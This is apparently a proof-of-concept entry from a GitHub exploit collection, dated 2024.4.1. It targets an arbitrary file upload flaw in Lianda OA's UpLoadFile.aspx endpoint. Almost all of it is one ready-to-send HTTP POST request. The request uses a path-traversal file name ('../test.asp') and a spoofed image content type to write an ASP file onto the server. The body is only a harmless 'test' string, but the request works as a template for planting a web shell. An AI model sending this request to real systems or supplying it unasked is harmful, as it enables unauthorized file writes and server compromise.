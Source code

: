 # lianda_UpLoadFile_fileupload

from : https://github.com/wy876/POC/blob/main/%E8%81%94%E8%BE%BEOA-UpLoadFile.aspx%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
2024.4.1 @2 
```
POST /FileManage/UpLoadFile.aspx HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.1707.77 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 241
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="DesignId"

1
--00content0boundary00
Content-Disposition: form-data; name="file"; filename="../test.asp"
Content-Type: image/png

test
--00content0boundary00--
```
